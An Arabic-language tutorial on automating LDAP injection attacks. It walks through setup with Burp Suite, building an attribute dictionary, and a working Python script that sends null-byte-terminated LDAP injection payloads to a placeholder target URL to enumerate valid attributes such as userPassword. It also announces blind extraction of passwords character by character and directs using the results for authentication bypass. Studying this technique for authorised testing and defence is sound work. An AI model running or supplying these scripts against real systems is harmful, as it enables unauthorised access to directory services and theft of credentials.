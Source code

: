## الخطوات العملية لأتمتة الاختبار
1. **إعداد البيئة**:
   - تأكد من تثبيت Python 3 أو Ruby على جهازك.
   - قم بتثبيت المكتبات المطلوبة:
     - لـ Python: `pip install requests`
     - لـ Ruby: تأكد من توفر مكتبة `net/http` (مدمجة افتراضيًا).
   - استخدم أداة وكيل (مثل Burp Suite أو OWASP ZAP) لمراقبة الطلبات والاستجابات.
   - حدد حقل إدخال يتفاعل مع LDAP (مثل حقل اسم المستخدم، حقل البحث، أو معايير URL).
2. **إنشاء ملف قاموس**:
   - لاختبار الخصائص: أنشئ ملفًا (مثل `dic`) يحتوي على قائمة بالخصائص الشائعة.
   - للاستغلال الأعمى: استخدم مجموعة أحرف (مثل الحروف، الأرقام، والرموز) لتخمين القيم.
3. **كتابة السكربت**:
   - اكتب سكربتًا لإرسال طلبات HTTP تحتوي على استعلامات LDAP.
   - عدّل السكربت بناءً على:
     - عنوان URL للموقع.
     - حقل الإدخال (مثل `login` أو `search`).
     - شرط النجاح (مثل نص في الاستجابة أو رمز حالة HTTP).
4. **تشغيل السكربت**:
   - شغّل السكربت وتحقق من المخرجات (مثل قائمة الخصائص الصالحة أو القيمة المستخلصة).
   - راقب الطلبات في Burp Suite للتأكد من أنها تُرسل بشكل صحيح.
5. **تحليل النتائج**:
   - استخدم الخصائص الصالحة أو القيم المستخلصة في هجمات إضافية (مثل تجاوز التحقق أو الاستغلال الأعمى).

---

## جميع المحاولات الممكنة لأتمتة الاختبار
في هذه الخطوة، المحاولات تعتمد على نوعين رئيسيين من السكربتات:
1. **سكربتات اكتشاف الخصائص الصالحة**: لاختبار قائمة خصائص (مثل `uid`, `cn`, `userPassword`) وتحديد أيها مدعوم.
2. **سكربتات الاستغلال الأعمى**: لتخمين قيمة خاصية (مثل كلمة المرور) حرفًا بحرفًا.

سأقدم السكربتات مع التعديلات الممكنة لكل نوع، بالإضافة إلى قوائم المدخلات التي يمكن استخدامها.

### 1. سكربتات اكتشاف الخصائص الصالحة
الهدف هو اختبار قائمة من الخصائص الشائعة (مثل `uid`, `cn`, `sn`) لمعرفة أيها صالح. يتم ذلك بإرسال طلبات تحتوي على استعلامات مثل `*)(ATTRIBUTE=*)` وتحليل الاستجابات.

#### سكربت Python لاكتشاف الخصائص
```python
#!/usr/bin/python3
import requests
import string

fields = []
url = 'https://TARGET_URL.com/'  # استبدل بـ URL الموقع
f = open('dic', 'r')
world = f.read().split('\n')
f.close()

for i in world:
    r = requests.post(url, data={'login': '*)('+str(i)+'=*))\x00', 'password': 'bla'})
    if 'TRUE CONDITION' in r.text:  # استبدل TRUE CONDITION بنص يظهر عند النجاح
        fields.append(str(i))

print(fields)
```
